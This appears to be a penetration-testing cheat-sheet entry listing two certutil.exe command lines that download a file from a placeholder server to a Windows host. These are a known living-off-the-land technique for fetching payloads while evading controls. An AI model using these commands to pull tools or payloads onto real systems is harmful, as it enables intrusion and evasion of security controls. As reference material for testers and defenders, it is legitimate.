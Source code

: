 # certutil

% windows, download, certutil

## download with certutil
```
certutil.exe -urlcache -split -f http://<server>/<source_file> <dest_file>
```

## download with  certutil (2)
```
certutil.exe -verifyctl -f -split h http://<server>/<source_file> <dest_file>
```
